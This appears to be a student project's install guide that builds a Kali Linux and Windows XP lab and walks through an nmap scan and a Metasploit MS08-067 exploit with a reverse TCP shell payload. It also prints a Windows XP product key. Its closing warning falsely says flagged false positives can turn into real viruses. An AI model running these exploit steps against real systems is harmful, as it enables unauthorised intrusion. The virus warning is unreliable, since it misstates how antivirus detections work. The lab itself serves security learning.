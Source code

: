 # INSTALL DOCUMENT

## Get Started With Our Project!

1. Enable virtualization on your windows machine by searching “Turn windows feature on or off in windows search bar.

2. You will be prompted with many folders, check the options (virtual Machine Platform, Windows hypervisor Platform) press ok and it will prompt you to restart your machine, then restart.

3. If still needed, enable virtualization from bios by following this [video](https://youtu.be/LQIyowZMiY8?si=hLTgTE97Z5RX1dJS).

4. Now you can download VMware Workstation Pro for free by visiting this [site](https://access.broadcom.com/default/ui/v1/signin/).

5. Create an account with broadcom.

6. Go to software > VMware Cloud Foundation > MyDownloads > VMware Workstation Pro > VMware Workstation Pro 17.0 Windows > latest release. Or VMware Workstation Player.  If you have trouble downloading(which probably you will have) follow this youtube [video](https://youtu.be/agw2i6QddvE?si=mT8Ux7C42ign7Ioo).

7. Go on the Kali Linux [website](https://www.kali.org/get-kali/#kali-installer-images) and downloaded the recommended Kali ISO file installer.

8. Make sure when creating the virtual machines to have the machines files saved separatly not in one file to be able to modify them later.

9. Then follow this [YouTube tutorial](https://www.youtube.com/watch?v=U0AMu3rznc4)

10. Then go on [archive.org](https://archive.org/details/WinXPProSP1) website and download windows xp iso file.

11. Install and setup windows xp vmware workstation 17 while watching this [youtube video](https://www.youtube.com/watch?v=ghr5ef-pxXM) and make sure to enter this product key: DF32F-Q323T-JH3HT-QRG42-34YX8.

12. Setup vm machines settings by visiting this [git repository](https://github.com/Ibrahimelz/ASPS.git).

13. download it and follow the instructions in the ***scripts/VMware_files*** to isolate your machines correctly.

14. Then power on both kali linux and windows xp virtual machines.

15. Then open terminal on kali linux and write the following commands:
    - `ifconfig` or `ip address show` to know your own ip address.

    - `ping [target machine’s ip]` to check if the other machine is up(checks if the target machine is up and reachable).

    - `nmap -sV [target machine’s ip]` scans the version of service (operation system) of the targeted machine .

    - `nmap -p 1-65535 --script vuln [target machine’s ip] -Pn` scans the target machine by running the "vuln" category of scripts to check for common vulnerabilities on the machine(scans the target machine to find out the version of the operating system and services running on it).

    - have the vulnerability’s `IDs: CVE which is CVE-2008-4250` identify the vulnerability to work with by its Common Vulnerabilities and Exposures (CVE) ID, in this case, CVE-2008-4250.

    - `sudo msfconsole` the command to run metasploit.

    - `search CVE-xxxx-xxxx` search the vulnerability found by nmap. In this case `CVE-2008-4250`.

    - take the name of the exploit which is **exploit/windows/smb/ms08_067_netapi** the machine running is vulnerable to this exploit.

    - `use [exploit name]` to go on that exploit to set it up to use it (load the exploit by entering its name).

    - `show options` shows the exploit's information for necessary actions to set up the exploit.

    - `set RHOSTS [target machine’s ip]` set the target machine as the RHOST (remote host).

    - `set LHOST [attacker machine's ip]` this field will be filled with a default value such as **127.0.0.0** it is recommended to change that.

    - `set LPORT 4444` this field will also be filled but make sure that the port is **4444** as sometimes it will change to **8080**.

    - `show payloads` and choose the needed payload, in our case we tried using a shell payload named **windows/shell_reverse_tcp** the payload is the action to perform on the target machine, in this case it will take control of the shell by reverse tcp.

    - `exploit` or `run` Execute the exploit to perform the intended action on the target machine and voila, you have access to the victim’s command shell as a powerful use.

    - Then if you want to close everything you need to do `cntrl + c` to get out of the windows xp cmd, then `exit` to get out of the metasploit tool. Then you simply close the terminal, then you can shut down both virtual machines.

## ATTENTION
***FOR A FINAL SECURITY MEASURE, MOST TIMES WINDOWS DEFENDER WILL PICK KALI.iso IMAGE WITH THE SCRIPTS INSIDE IT AS VIRUSES. YOU WILL TYPICALLY HAVE 365 VIRUSES OR SO. TO MAKE SURE TO EVADE FURTHER COMPICATIONS, DELETE THE iso IMAGE AFTER FININSHING THE VIRTUAL MACHINE'S SET UP***
The cause for such a thing is that the scripts necessary for the kali tools inside the iso to function are flagged as viruses for security measures and such a thing cannot be disabled.
However, these "False-positive" viruses might burst out because you tried to fight them in a wrong way and ***THEY MIGHT BECOME REAL VIRUSES*** that could affect your computer and you could affect many other devices if interacted with.
So please be cautious and treat the situation carefully.

**If you ever forgot to delete the iso file** and one day the windows defender picked these "viruses" up, ***BE CAREFUL TO NOT MESS WITH THEM*** in any way, shape, or form.
Instead, try to delete the iso file itself, sometimes windows will not allow you to because the "viruses" are active and you cannot delete an active script just like that.
However, this could be treated easily by going into safe mode. Restart your machine by clicking restart in the windows menu and press `shift` while doing so.